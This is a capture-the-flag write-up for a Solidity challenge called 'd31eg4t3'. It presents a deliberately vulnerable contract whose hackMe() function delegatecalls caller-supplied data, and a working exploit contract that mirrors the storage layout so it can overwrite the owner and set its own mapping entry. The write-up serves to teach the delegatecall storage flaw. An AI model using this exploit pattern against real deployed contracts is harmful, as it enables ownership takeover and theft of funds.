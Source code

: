 # d31eg4t3

## Challenge

We receive one contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract D31eg4t3{
    uint a = 12345;
    uint8 b = 32;
    string private d; 
    uint32 private c; 
    string private mot;
    address public owner;
    mapping (address => bool) public canYouHackMe;

    modifier onlyOwner{
        require(false, "Not a Owner");
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function hackMe(bytes calldata bites) public returns(bool, bytes memory) {
        (bool r, bytes memory msge) = address(msg.sender).delegatecall(bites);
        return (r, msge);
    }


    function hacked() public onlyOwner{
        canYouHackMe[msg.sender] = true;
    }
}

Our goals are:
- Become the owner of the contract.
- Make canYouHackMe mapping to true for your own address.
```

## Solution

The issue we have here is the handling of storage during a delegate call. The hackMe() function delegates whatever calldata we have back to us. As delegatecall uses the callers storage in the functions of the callee, we can just write a function in our contract that overwrites owner with our address and sets the mapping for our address to true. If we copy the storage layout of the target, this is super easy. I just wrote a simple exploit contract for this:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.7;

import "./Chal.sol";

contract attack {
    uint a = 12345;
    uint8 b = 32;
    string private d; 
    uint32 private c; 
    string private mot;
    address public owner;
    mapping (address => bool) public canYouHackMe;
    D31eg4t3 target_contract;

    constructor(address target_addr)
    {
        target_contract = D31eg4t3(target_addr);
    }

    function attack_fun() public 
    {
        target_contract.hackMe(abi.encodeWithSelector(this.overwrite.selector));
    }

    function overwrite() public
    {
        owner = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;
        canYouHackMe[0x5B38Da6a701c568545dCfcB03FcB875f56beddC4] = true;
    }
}
```
